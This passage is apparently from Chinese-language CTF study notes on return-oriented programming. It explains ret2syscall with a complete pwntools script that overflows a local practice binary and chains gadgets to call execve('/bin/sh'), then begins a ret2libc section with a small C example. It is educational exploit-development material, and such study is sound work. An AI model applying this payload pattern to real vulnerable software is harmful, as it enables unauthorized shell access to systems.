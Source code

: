 每次ret的时候就相当于pop eip，所以会将栈上的数据先pop到对应的寄存器，然后ret的时候将地址pop到eip中，到下一个执行点

```
from pwn import *
p=process('./rop')
context(os='linux', arch = 'amd64', log_level = 'debug')
# p = gdb.debug('./rop', "break main")
# gdb.attach(p)
int_addr=0x8049421
bin_sh_addr=0x80be408
pop_other_ret=0x806eb90
pop_eax_ret=0x80bb196
payload=b'a'*112+p32(pop_eax_ret)+p32(0xb)+p32(pop_other_ret)+p32(0)+p32(0)+p32(bin_sh_addr)+p32(int_addr)
# pause()
p.sendline(payload)
p.interactive()
```

![image-20240104184618293](images/35.png)

执行流程可以参考[ctfwiki-pwn：Basic ROP(ret2syscall) - LuoSpider - 博客园 (cnblogs.com)](https://www.cnblogs.com/luocodes/p/13923416.html)

### ret2libc

#### 动态链接

关于linux的静态链接，编译出来的程序我们会看到所有使用过的函数，而动态链接则不会，动态链接拖进IDA中看到的内容就十分少

一般来说有关ret2syscall的都是静态编译出来的

```
#include <stdio.h>

foo(){
	printf("hello");
}

int main(){
	foo();
	puts("test");
	return 0;
}
```
